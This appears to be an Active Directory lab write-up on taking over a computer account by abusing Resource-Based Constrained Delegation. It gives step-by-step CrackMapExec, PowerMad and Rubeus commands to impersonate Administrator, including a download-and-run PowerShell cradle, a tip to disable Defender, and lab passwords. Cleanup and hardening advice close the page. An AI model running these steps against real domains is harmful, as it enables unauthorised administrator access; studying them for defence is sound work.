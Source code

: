 # Computeraccount Takeover

## Configuring

### Prerequisite

{% content-ref url="../../acl-abuses/owns.md" %}
[owns.md](../../acl-abuses/owns.md)
{% endcontent-ref %}

### Configuring

Nothing need to be configured to abuse this since we set the GenericAll permissions during the "Owns" section. If you would like to configure this it can be configured the same way as we configured "Write Owner".

## Attacking

### How it works

Is you have GenericAll or GenericWrite rights to a computer object you can write to the attribute `msds-AllowedToActOnBehalfOfOtherIdentity`. If you control this attribute you can impersonate and authenticate as any domain user to the computer. Resulting in getting access to the computer as long as you can impersonate a user that has access too it. Users with the flag "This account is senstitive and cannot be delegated" or members of the "Protected Users Group" can't be impersonated.

### Tools

* [PowerMad](https://github.com/Kevin-Robertson/Powermad)
* [Invoke-DNSUpdate](https://github.com/Kevin-Robertson/Powermad/blob/master/Invoke-DNSUpdate.ps1)

### Executing the attack

#### Prereqesuite

* An account with a SPN associated (or able to add new machines accounts (default value this quota is 10))
* A user with write privileges over the target computer which doesn't have msds-AllowedToActOnBehalfOfOtherIdentity

#### Executing the attack

1. It is expected that the GenericAll permissions during the ACL abuses "Write Owner" and "Owns" are set for the `sa_sql` user. This attack will continue from there:

{% content-ref url="../../acl-abuses/owns.md" %}
[owns.md](../../acl-abuses/owns.md)
{% endcontent-ref %}

2\. First we will check that the target doesn't have the `msds-AllowedToActOnBehalfOfOtherIdentity` attribute set.

```
Get-DomainComputer -Domain secure.local -Credential $creds -Server 10.0.0.100 Data01 | Select-Object -Property name, msds-allowedtoactonbehalfofotheridentity
```

![](<../../../../.gitbook/assets/image (18) (1) (1) (1).png>)

The attribute haven't been set yet.

3\. Add the following to the `/etc/hosts` file on Kali otherwise the Crackmapexec command will fail:

```
10.0.0.100 secure.local
10.0.0.100 dc03
10.0.0.100 dc03.secure.local
```

4\. Check if we can add computers to the domain since its a requirement for the attack. We can get the machine account qouta from the domain with Crackmapexec:

```
crackmapexec ldap 10.0.0.100 -u sa_sql -p Iloveyou2 -M MAQ
```

![](<../../../../.gitbook/assets/image (48) (1).png>)

The machine account qouta is 10, meaning we (all authenticated users) can create our own computerobject in the domain.

5\. Create a machine account with the name `FAKE01` and password `123456` with PowerMad:

```
iex (iwr http://192.168.248.2:8090/Powermad.ps1 -usebasicparsing)
New-MachineAccount -Domain secure.local -Credential $creds -DomainController 10.0.0.100 -MachineAccount FAKE01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

![](<../../../../.gitbook/assets/image (67) (1) (1) (1) (1).png>)

6\. Get the SID of the computerobject we created:

```
Get-DomainComputer fake01 -Domain secure.local -Credential $creds -Server 10.0.0.100
```

![](<../../../../.gitbook/assets/image (55) (1).png>)

7\. Now we need to create the raw security descriptor which we then will write to the attribute:

```
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-1498997062-1091976085-892328878-1108)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```

{% hint style="info" %}
Make sure you changed the SID since it can differ in your lab.
{% endhint %}

![](<../../../../.gitbook/assets/image (49).png>)

8\. Now we can write as `sa_sql` to the `msds-allowedtoactonbehalfofotheridentity` attribute of the computerobject `DATA01`:

```
Get-DomainComputer DATA01 -Domain secure.local -Credential $creds -Server 10.0.0.100 | Set-DomainObject -Domain secure.local -Credential $creds -Server 10.0.0.100 -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```

![](<../../../../.gitbook/assets/image (66) (1).png>)

9\. Seems like it worked, now we can check the value of the `msds-AllowedToActOnBehalfOfOtherIdentity` attribute by saving it in a variable and doing some powershell confu to decrypt it:

```
$RawBytes = Get-DomainComputer DATA01 -Domain secure.local -Credential $creds -Server 10.0.0.100 -Properties 'msds-allowedtoactonbehalfofotheridentity' | Select-Object -ExpandProperty msds-allowedtoactonbehalfofotheridentity
(New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0).DiscretionaryAcl
Get-DomainComputer -Domain secure.local -Credential $creds -Server 10.0.0.100 <SID>
```

![](<../../../../.gitbook/assets/image (52).png>)

10\. `FAKE01` can impersonate any user now to `DATA01`. To do this we first need to calculate the NTLM hash for the `FAKE01` password, we can do this with Rubeus.

```
.\Rubeus.exe hash /password:123456 /user:fake01 /domain:secure.local
```

![](<../../../../.gitbook/assets/image (72) (1) (1) (1).png>)

{% hint style="info" %}
Temporarily disable Windows Defender if it gets flagged by it.
{% endhint %}

11\. The next step is to run Rubeus to impersonate the `Administrator` user using the `FAKE01` Computeraccount. Abusing Resource Based Constrained Delegation. We will request a CIFS ticket so we can list the C disk.

```
.\Rubeus.exe s4u /domain:secure.local /dc:10.0.0.100 /user:fake01 /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:Administrator /msdsspn:CIFS/data01.secure.local /ptt
```

![](<../../../../.gitbook/assets/image (33).png>)

![](<../../../../.gitbook/assets/image (59).png>)

12\. We got a CIFS ticket as `Administrator` for `data01.secure.local`, now we can try to list the C disk.

![](<../../../../.gitbook/assets/image (61) (1).png>)

### Cleanup

1. Login to `DC03` as `Administrator` with the password `Welcome01!`.
2. Execute the following command to remove the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute from `DATA01`.

```
Set-ADComputer -PrincipalsAllowedToDelegateToAccount $null -Identity data01
```

3\. Execute the following command to remove the `FAKE01` computer we created:

```
Get-ADComputer fake01 | Remove-ADObject
```

## Defending

### Recommendations

* Change who can add computers to the domain.

{% content-ref url="../../../../defence/hardening/change-who-can-join-computers-to-the-domain.md" %}
[change-who-can-join-computers-to-the-domain.md](../../../../defence/hardening/change-who-can-join-computers-to-the-domain.md)
{% endcontent-ref %}

* Add privileged users to the protected users group.

{% content-ref url="../../../../defence/hardening/protected-users-group.md" %}
[protected-users-group.md](../../../../defence/hardening/protected-users-group.md)
{% endcontent-ref %}

* Add the flag "Account is sensitive and cannot be delegated".

{% content-ref url="../../../../defence/hardening/account-is-sensitive-and-cannot-be-delegated.md" %}
[account-is-sensitive-and-cannot-be-delegated.md](../../../../defence/hardening/account-is-sensitive-and-cannot-be-delegated.md)
{% endcontent-ref %}

### Detection



## References

{% embed url="https://github.com/Kevin-Robertson/Powermad" %}

{% embed url="https://github.com/Kevin-Robertson/Powermad/blob/master/Invoke-DNSUpdate.ps1" %}
